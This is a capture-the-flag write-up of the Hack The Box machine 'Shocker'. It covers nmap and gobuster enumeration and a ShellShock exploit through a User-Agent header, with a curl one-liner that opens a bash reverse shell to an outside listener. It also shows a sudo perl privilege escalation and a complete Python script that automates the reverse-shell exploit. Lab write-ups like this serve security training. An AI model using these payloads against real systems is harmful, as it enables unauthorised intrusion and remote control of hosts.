

# Introdution


[https://app.hackthebox.com/machines/Shocker](https://app.hackthebox.com/machines/Shocker)


This was a machine very easy in Hack The Box. In it we explore a vulnerability called ShellShock. 

The privilege escalation was with sudo in the perl binary.

The exploit for this machine is on the end of the post.

**Have a good time!**


## Diagram



# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.56 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.10.10.56
```


## **Port 80 (http)**

There’re a simple page web.

`http://10.10.10.56/`


The source code also don’t have nothing.

`view-source:http://10.10.10.56/`


### **Fuzzing Diretório WEB**

We will make a fuzzing with the tool `gobuster`.

```bash
gobuster dir -u http://10.10.10.56/ -w /usr/share/wordlists/dirb/big.txt -t 100 -e --no-error -r -f
```


We find the directory `cgi-bin`.

Based in the name’s machine, we can suggest that this directory there’re the vulnerability ShellShock.

So we did another fuzzing in the directory with some common cgi extension (sh, cgi, pl).

```bash
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirb/big.txt -t 100 -e --no-error -r -f -x sh,cgi,pl
```


We find only the file `user.sh`.

### User.sh

We run the file with `curl` to see your output

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```


Looks like it's a script running the `uptime` command, suggesting that this is a CGI bash script in execution


We find shellshock.

# Exploration

## **Exploiting ShellShock**

> ShellShock (also known as Bashdoor or CVE-2014-6271) was a vulnerability in Bash discovered in 2014 that has to do with the Bash syntax for defining a function. The vuln allowed that the attacker run commands in places where they should to do only something safe like setting a environment variable.
> 

### POC **shellshock:**

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'id' " http://10.10.10.56/cgi-bin/user.sh
```


Alternatively, we can run the `nmap` for discover the vuln:

```bash
nmap -sV -p 80 --script http-shellshock --script-args uri**=**/cgi-bin/user.sh 10.10.10.56
```


## Getting Shell

After to prepare the listener, I getting the shell with the below command

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```


# Post Exploration

## Privilege Escalation (shelly → root)

We check the `perl` run sudo.

```bash
**sudo -l**
```


Looking in the [GTOFBins](https://gtfobins.github.io/gtfobins/perl/#sudo) website, we find the command that allow to get root with the perl.


```bash
sudo perl -e 'exec "/bin/bash";'
```


# Get Shell - Script Automation

This is a script in python to exploit this machine.

`shocker-getshell.py`

```python
#! /usr/bin/env python3

## Author: 0xEtern4lW0lf
## Created: 18 Dez 2022
## Description: GetShell - Shocker - HTB

## ========= MODULES =========

import argparse
import requests
import socket
import telnetlib
from threading import Thread

## ========= VARIABLE =========

## Set proxy [OPTIONAL]
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

## ========= FUNCTION =========

## Set the handler
def handler(lport,target):
    print(f"[+] Starting handler on {lport} [+]")
    tn = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0",lport))
    s.listen(1)
    conn, addr = s.accept()
    print(f"[+] Receiving connection from {target} [+]")
    tn.sock = conn
    print("[+] Habemus Shell! [+]")
    tn.interact()

## Get the reverse shell
def GetShell(rhost,lhost,lport):
    print("[+] Sending payload! [+]")
    payload = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
    url = f"http://{rhost}/cgi-bin/user.sh"
    headers = {"User-Agent": "() { :;}; echo; /bin/bash -c '%s'" %payload}
    r = requests.session()
    r.get(url, headers=headers)

## main
def main():
    ## Parse Arguments
    parser = argparse.ArgumentParser()
    parser = argparse.ArgumentParser(description='GetShell - Shocker / HTB - 0xEtern4lW0lf')
    parser.add_argument('-t', '--target', help='Target IP address or hostname', required=True)
    parser.add_argument('-l', '--lhost', help='Local IP address or hostname', required=True)
    parser.add_argument('-p', '--lport', help='Local Port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.lhost
    lport = args.lport

    ## Setup the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()

    ## Get the reverse shell
    GetShell(rhost,lhost,lport)

## ======= EXECUTION =======

if __name__ == '__main__':
    main()
```


 More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).